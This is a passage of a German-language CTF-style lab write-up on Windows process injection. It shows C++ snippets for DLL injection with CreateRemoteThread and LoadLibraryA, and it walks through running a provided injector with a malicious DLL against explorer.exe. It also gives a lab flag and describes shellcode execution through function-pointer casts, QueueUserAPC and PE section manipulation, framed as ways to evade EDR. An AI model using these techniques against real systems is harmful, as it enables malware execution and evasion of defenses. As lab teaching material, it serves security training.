LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```

Wir können diese Schritte zusammenstellen, um einen DLL-Injektor zu erstellen. Verwenden Sie den bereitgestellten C++-Injektor und experimentieren Sie mit der DLL-Injektion.


## Fragen:
Identifizieren Sie die PID und den Namen eines Prozesses, der als THM-Attacker läuft und den Sie als Ziel verwenden möchten. Geben Sie den Namen und die bösartige DLL, die sich im Verzeichnis "Injectors" befindet, als Argumente an, um dll-injector.exe auszuführen, das sich ebenfalls im Verzeichnis "Injectors" auf dem Desktop befindet:
```
Starte den Task Manager und gehe zu den Reiter Details und suche dort nach einem Prozess, als beispiel nutzte ich den Explorer.exe prozess. syntax dll-injector.exe <NAME OF PROZESS> <MALICIOS DLL>
```

```
THM{n07_4_m4l1c10u5_dll}
```

# Task 6 - Alternativen zur Speicherausführung
Je nachdem, in welcher Umgebung Sie sich befinden, müssen Sie möglicherweise die Art und Weise ändern, wie Sie Ihren Shellcode ausführen. Dies könnte erforderlich sein, wenn es Hooks auf einem API-Aufruf gibt, die Sie nicht umgehen oder deaktivieren können, ein EDR (Endpoint Detection and Response) Threads überwacht usw.

Bisher haben wir hauptsächlich Methoden betrachtet, um Daten in lokale/remote Prozesse zu allozieren und zu schreiben. Die Ausführung ist ebenfalls ein entscheidender Schritt bei jeder Injektionstechnik, obwohl sie weniger wichtig ist, wenn es darum geht, Artefakte im Speicher und IOCs (Indicators of Compromise) zu minimieren. Im Gegensatz zur Allokation und dem Schreiben von Daten gibt es bei der Ausführung viele verschiedene Optionen zur Auswahl.

In diesem Raum haben wir die Ausführung hauptsächlich durch `CreateThread` und dessen Pendant `CreateRemoteThread` beobachtet.

In dieser Aufgabe werden wir drei weitere Methoden zur Ausführung abdecken, die je nach den Gegebenheiten Ihrer Umgebung verwendet werden können.

### Aufrufen von Funktionszeigern
Der void-Funktionszeiger ist eine eigenartig neuartige Methode zur Ausführung von Speicherblöcken, die ausschließlich auf Typumwandlung basiert.

Diese Technik kann nur mit lokal alloziertem Speicher ausgeführt werden, jedoch nicht auf API-Aufrufe oder andere Systemfunktionalitäten angewiesen ist.

Die Einzeiler-Version unten ist die gebräuchlichste Form des void-Funktionszeigers, aber wir können sie weiter aufschlüsseln, um ihre Bestandteile zu erklären.
```C++
((void(*)())addressPointer)();
```

Dieser Einzeiler kann schwer zu verstehen oder zu erklären sein, da er so dicht ist. Lassen Sie uns ihn durchgehen, während er den Zeiger verarbeitet.

1. Erstelle einen Funktionszeiger `(void(*)()`, markiert in Rot.
2. Wandele den allozierten Speicherzeiger oder das Shellcode-Array in den Funktionszeiger um `(<Funktionszeiger> addressPointer)`, markiert in Gelb.
3. Rufe den Funktionszeiger auf, um den Shellcode auszuführen `();`, markiert in Grün.

Diese Technik hat einen sehr spezifischen Anwendungsfall, kann jedoch sehr ausweichend und hilfreich sein, wenn sie benötigt wird.

### Asynchrone Prozeduraufrufe

Gemäß der [Microsoft-Dokumentation](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) zu asynchronen Prozeduraufrufen (Asynchronous Procedure Calls, APC): "Ein asynchroner Prozeduraufruf (APC) ist eine Funktion, die asynchron im Kontext eines bestimmten Threads ausgeführt wird."

Eine APC-Funktion wird einem Thread über `QueueUserAPC` in die Warteschlange gestellt. Sobald sie in der Warteschlange ist, führt die APC-Funktion zu einem Softwareinterrupt und wird beim nächsten Mal ausgeführt, wenn der Thread geplant wird.

Damit eine Benutzeranwendungs- oder Benutzermodusanwendung eine APC-Funktion in die Warteschlange stellen kann, muss der Thread sich in einem "alarmierbaren Zustand" befinden. Ein alarmierbarer Zustand erfordert, dass der Thread auf einen Rückruf wartet, beispielsweise mittels `WaitForSingleObject` oder `Sleep`.

Nun, da wir verstehen, was APC-Funktionen sind, schauen wir uns an, wie sie böswillig genutzt werden können! Wir werden `VirtualAllocEx` und `WriteProcessMemory` verwenden, um Speicher zu allozieren und zu beschreiben.
```C++
QueueUserAPC(
	(PAPCFUNC)addressPointer, // APC function pointer to allocated memory defined by winnt
	pinfo.hThread, // Handle to thread from PROCESS_INFORMATION structure
	(ULONG_PTR)NULL
	);
ResumeThread(
	pinfo.hThread // Handle to thread from PROCESS_INFORMATION structure
);
WaitForSingleObject(
	pinfo.hThread, // Handle to thread from PROCESS_INFORMATION structure
	INFINITE // Wait infinitely until alerted
);
```
Diese Technik ist eine ausgezeichnete Alternative zur Thread-Ausführung, hat aber in der Erkennungstechnik zunehmend an Bedeutung gewonnen, und spezifische Fallen werden für den Missbrauch von APC implementiert. Je nach den Erkennungsmaßnahmen, mit denen Sie konfrontiert sind, kann dies immer noch eine gute Option sein.

### Abschnittsmanipulation

Eine häufig gesehene Technik in der Malware-Forschung ist die PE (Portable Executable) und Abschnittsmanipulation. Zur Auffrischung: Das PE-Format definiert die Struktur und Formatierung einer ausführbaren Datei unter Windows. Für Ausführungszwecke konzentrieren wir uns hauptsächlich auf die Abschnitte, insbesondere `.data` und `.text`. Tabellen und Zeiger auf Abschnitte werden ebenfalls häufig verwendet, um Daten auszuführen.

Wir werden nicht detailliert auf diese Techniken eingehen, da sie komplex sind und eine umfangreiche technische Aufschlüsselung erfordern, aber wir werden ihre grundlegenden Prinzipien diskutieren.

Für jede Abschnittsmanipulationstechnik benötigen wir zunächst einen PE-Dump. Das Erhalten eines PE-Dumps wird häufig mit einer DLL oder einer anderen bösartigen Datei erreicht, die in `xxd` eingespeist wird.

Im Kern jedes dieser Methoden wird Mathematik verwendet, um durch die physischen Hex-Daten zu navigieren, die in PE-Daten übersetzt werden.

Einige der bekannteren Techniken umfassen das Parsen des RVA-Einstiegspunkts, die Abschnittszuordnung und das Parsen der Relocationstabelle.

Bei allen Injektionstechniken ist die Möglichkeit, gängige Forschungsmethoden zu kombinieren, endlos. Dies bietet Ihnen als Angreifer eine Vielzahl von Optionen, um Ihre bösartigen Daten zu manipulieren und auszuführen.
